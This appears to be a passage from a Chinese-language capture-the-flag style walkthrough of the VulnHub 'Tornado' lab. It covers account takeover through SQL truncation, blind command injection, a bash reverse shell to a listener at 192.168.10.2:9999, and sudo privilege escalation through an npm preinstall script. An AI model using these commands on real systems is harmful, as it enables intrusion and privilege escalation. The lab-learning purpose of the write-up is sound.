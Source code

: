 这里长度限制为13，那么通过这种形式，测试`sql`在进行截断的时候，是否还进行数据库中用户的检验，若没有，就可以存在多个用户了，尤其是空格之类的。

```
admin@tornado a
jacob@tornado a
hr@tornado    a
```

![](D:\stu\vulnhub\IA靶场\Tornado-pic\22.jpg)

之后直接登录`admin@tornado`，以及注册的密码，发现直接登录成功，但是查看这个功能点，还是不行

![](D:\stu\vulnhub\IA靶场\Tornado-pic\23.jpg)

再换一个注册`jacob@tornado a`，然后以`jacob@tornado`登录，好嘛，这里可以看到了

![](D:\stu\vulnhub\IA靶场\Tornado-pic\24.jpg)

发现这里输入什么就会返回什么，这不就是很好的`xss`吗，但是这里要`xss`还有什么用吗，都已经登录了，尝试试试输入一些命令，看其能否执行

# 命令注入

经过测试，输入`id、ls`等，直接返回这些字符，不过，我这里测试一下`ping`的时候，发现问题。

我刚开始直接输入`ping 127.0.0.1`，因为是`linux`界面，所以一直在加载，那么，大概就清楚了。然后我把靶机重启了，然后重新验证，只发送5个包，`ping -c 127.0.0.1`，发现真的有变化，确定是可以执行命令，只是不把回显返回

![](D:\stu\vulnhub\IA靶场\Tornado-pic\25.jpg)

尝试进行`shell`反弹，先在`kali`中使用`nc`开启监听9999端口，然后输入下面命令，并执行

```shell
/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'
```

![](D:\stu\vulnhub\IA靶场\Tornado-pic\26.jpg)

# 提权

## 提权至catchme用户

使用`find`寻找具有SUID权限的文件，发现`sudo`，直接尝试，发现不需要密码，有一个用户`catchme`的文件可执行

```shell
find / -perm -4000 -print 2>/dev/null
```

![](D:\stu\vulnhub\IA靶场\Tornado-pic\27.jpg)

对于不知道`npm`的`sudo`提权，可以查看网站`gtfobins.github.io`中的帮助

![](D:\stu\vulnhub\IA靶场\Tornado-pic\28.jpg)

```shell
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
chmod 777 tmp.Veh2PZ0bMR
sudo -u catchme npm -C $TF --unsafe-perm i
```
